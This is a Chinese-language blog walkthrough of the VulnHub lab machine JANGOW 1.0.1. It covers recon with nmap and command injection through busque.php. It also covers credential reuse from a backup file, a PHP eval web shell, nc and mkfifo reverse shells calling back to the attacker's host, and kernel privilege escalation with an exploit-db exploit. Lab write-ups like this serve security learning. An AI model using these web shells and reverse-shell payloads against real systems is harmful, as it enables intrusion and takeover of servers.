 ```yaml
---
title: vulnhub 做题 JANGOW 1.0.1
tags: [penetration]
date: 2024-10-12 00:00:00
categories: [penetration]
excerpt: day1
---
```



## vulnhub 做题 JANGOW: 1.0.1


### 用vmware开机分配不到ip

开机时按e进入gnu grub的boot选项配置界面，把linux一行最后的 ro 改成 `rw single init=/bin/bash`, ctrl+x 保存重启。

ip addr 可以查看有哪些网卡，然后打开 /etc/network/interfaces 把 primary network interface 里边的网卡替换成已有的。（也不知道这个interfaces里写的网卡是哪里来的，可能是因为我用的vmware不是virtualbox？）

（还遇到了键盘按/结果出来的是;的问题，也不知道是咋回事😴）

`/etc/init.d/networking restart`, 然后重启虚拟机

虽然本来该显示ip的REDE:还是什么都没有， 但是 nmap 已经可以扫到这个主机了

> 注：ubuntu 17以后，已经没有/etc/network/interfaces，改用netplan，而配置这个netplan，需要修改/etc/netplan/*.yml，然后用netplan apply命令更新。但是由于这个命令会调用systemctl，在单用户下用不了，所以我能想到的方法就是在单用户模式下创建一个新用户，正常登陆进去再配置😶‍🌫️😶‍🌫️😶‍🌫️~~（虽然感觉很弱智，但我也没找到更好的方法）~~


```zsh
└─$ nmap -sn 192.168.169.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-11 03:50 EDT
Nmap scan report for 192.168.169.2
Host is up (0.00053s latency).
Nmap scan report for 192.168.169.128
Host is up (0.00035s latency).
Nmap scan report for 192.168.169.129
Host is up (0.0022s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 3.03 seconds
```

### 扫描

```zsh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-06-10 18:05  site/
|_
|_http-title: Index of /
```

看到了web和ftp端口

### 漏洞点

打开这个web，会告诉/site路径下有一个网站

![](/img/pene/1.png)

一顿乱点发现右上角这个Buscar会跳转到一个奇怪的路径，`http://192.168.169.129/site/busque.php?buscar=`，这种路径用kali的dirbuster还找不到。看到有的题解说用feroxbuster ~~（但是这东西要两个G）~~，而且我实际用了一下也没扫到这个busque.php😢，倒是扫到了wordpress路径，但是和这道题没关系😴

然后对这个php的参数传进去一个linux命令，比如ls、id、ps等等，发现能执行并回显 ~~（我也不知道为什么就想到了输个linux命令进去，可能这就是大佬的经验吧）~~

其实这种情况也可以试试文件包含漏洞，形如 `busque.php?buscar=../../../../../../etc/passwd`

知道了可以执行命令尝试用nc反弹shell，`which%20nc` 发现确实有nc

`nc -lvvp 6666`监听链接，`nc%20-e%20/bin/bash%20<attacker-ip>%206666`尝试反弹shell

但是监听不到任何链接😭，只能换个方法

寻找ssh私钥  `cat%20/home/jangow01/.ssh/id_rsa` , 也没有回显

只能到处找找有没有什么奇怪的文件了

通过cat可以看到busque.php内容是`?php system($_GET['buscar']); ?`，现在也没用了

通过`ls -alh`在`/var/www/html`下发现有一个.backups文件

```php
$servername = "localhost"; 
$database = "jangow01"; 
$username = "jangow01"; 
$password = "abygurl69"; // Create connection 
$conn = mysqli_connect($servername, $username, $password, $database); // Check connection 
if (!$conn) { die("Connection failed: " . mysqli_connect_error()); } echo "Connected successfully";
mysqli_close($conn); 
```

由于端口扫描没开ssh服务，并且开了ftp服务，看一下是不是这个登陆密码

```zsh
└─$ ftp 192.168.169.129                          
Connected to 192.168.169.129.
220 (vsFTPd 3.0.3)
Name (192.168.169.129:kali): jangow01
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||14986|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        0            4096 Oct 31  2021 html
226 Directory send OK.
ftp> 
```

成功登录 

生成一个一句话木马 

`echo '<?php eval($_POST["cmd"]); ?>' > shell.php`

`echo%20%27%3C?php%20eval($_POST[%22cmd%22]);%20?%3E%27%20%3E%20shell.php`

> 但是我在尝试用ftp上传一个shell.php文件时，会报错：553 Could not create file. 应该是权限不够，但是下载是可以的
> 那这道题给ftp的用户名和密码是为了啥呢，后面也用不到了😶‍🌫️

用AntSword链接，地址是 `http://192.168.169.129/site/shell.php` (要带上site) 密码就是要post的参数名cmd

创建一个用来反弹shell的php，rev.php

然后写入`echo '<?php system("mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.169.128 443 >/tmp/f");?>' > rev.php`

> 我不知道为什么echo进去总是失败，最后用的AntSword的文件管理写进去的

这里选择443端口是因为其余端口有防火墙，而靶机大部分是不会禁80 443的

浏览器访问rev.php，成功拿到反弹shell

```zsh
┌──(kali㉿kali)-[~]
└─$ sudo nc -nlvp 443            
[sudo] password for kali: 
listening on [any] 443 ...
connect to [192.168.169.128] from (UNKNOWN) [192.168.169.129] 52324
/bin/sh: 0: can't access tty; job control turned off
$ ls
assets
busque.php
css
index.html
js
rev.php
shell.php
wordpress
$ 
```


### 提权

通过which命令知道/usr/bin/python3，然后用 pty 方式来升级shell
`/usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'`

得到了一个正常的shell

然后uname -a查看系统版本，发现是4.4.0-31-generic ubuntu

用kali的searchsploit搜索提权代码，然后用ftp或者AntSword上传到靶机上

`/usr/share/exploitdb/exploits/linux/local/45010.c`

编译执行提权成功

![](/img/pene/2.png)
